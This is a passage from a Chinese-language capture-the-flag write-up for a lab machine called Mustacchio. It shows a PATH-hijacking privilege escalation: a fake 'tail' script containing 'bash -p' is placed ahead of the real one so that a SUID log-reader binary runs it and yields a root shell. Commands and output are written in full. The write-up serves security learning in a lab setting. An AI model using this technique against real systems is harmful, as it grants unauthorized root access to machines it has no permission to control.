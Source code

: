 []A\A]A^A_
Live Nginx Log Reader
tail -f /var/log/nginx/access.log
```

留意这行shell代码```tail -f /var/log/nginx/access.log```，表明这个SUID文件会调用tail命令监听web日志。

我们可以利用上面的shell命令提权到root

## 把/home/barry写入$PATH
```
barry@mustacchio:/home/joe$ export PATH=/home/barry:$PATH
```
## 查看现在当前用户的$PATH
```
barry@mustacchio:/home/joe$ echo $PATH
/home/barry:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

## 创建一个tail文件，并且给予执行权限
```
barry@mustacchio:/home/joe$ touch /home/barry/tail
barry@mustacchio:/home/joe$ chmod +x /home/barry/tail
```

## 把下面的shell写进/home/barry/tail
```
#!/bin/bash
bash -p
```

## 执行live_log，成功提权到root
```
barry@mustacchio:/home/joe$ vi /home/barry/tail
barry@mustacchio:/home/joe$ cat /home/barry/tail
#!/bin/bash
bash -p
barry@mustacchio:/home/joe$ ./live_log 
root@mustacchio:/home/joe# id
uid=0(root) gid=0(root) groups=0(root),1003(barry)
root@mustacchio:/home/joe# whoami
root
root@mustacchio:/home/joe# cat /root/root.txt 
```